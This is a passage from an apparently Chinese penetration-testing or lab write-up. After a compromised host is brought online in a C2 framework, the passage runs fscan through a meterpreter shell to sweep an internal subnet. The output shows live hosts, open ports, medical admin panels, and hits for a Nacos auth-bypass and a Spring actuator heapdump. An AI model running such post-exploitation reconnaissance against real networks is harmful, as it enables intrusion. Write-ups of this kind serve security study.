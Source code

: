 上线 VIPER

[![](assets/1706771111-1bf6c49ccc7643cd4d722bfb72b75a07.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129173508-b0e40aa0-be89-1.png)

## 信息搜集

上传 Fscan 进行内网网段扫描

```bash
meterpreter > shell -c './fscan -h 172.30.12.5/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.30.12.6     is alive
(icmp) Target 172.30.12.5     is alive
(icmp) Target 172.30.12.236   is alive
[*] Icmp alive hosts len is: 3
172.30.12.236:22 open
172.30.12.5:22 open
172.30.12.236:8080 open
172.30.12.5:8080 open
172.30.12.6:445 open
172.30.12.6:139 open
172.30.12.6:135 open
172.30.12.6:8848 open
172.30.12.236:8009 open
[*] alive ports len is: 9
start vulscan
[*] NetBios 172.30.12.6     WORKGROUP\SERVER02            
[*] NetInfo 
[*]172.30.12.6
   [->]Server02
   [->]172.30.12.6
[*] WebTitle http://172.30.12.5:8080   code:302 len:0      title:None 跳转 url: http://172.30.12.5:8080/login;jsessionid=A60E466BB515111EA9813AD488333B5B
[*] WebTitle http://172.30.12.5:8080/login;jsessionid=A60E466BB515111EA9813AD488333B5B code:200 len:2005   title:医疗管理后台
[*] WebTitle http://172.30.12.6:8848   code:404 len:431    title:HTTP Status 404 – Not Found
[*] WebTitle http://172.30.12.236:8080 code:200 len:3964   title:医院后台管理平台
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos 
[+] PocScan http://172.30.12.6:8848 poc-yaml-alibaba-nacos-v1-auth-bypass 
[+] PocScan http://172.30.12.5:8080 poc-yaml-spring-actuator-heapdump-file
```
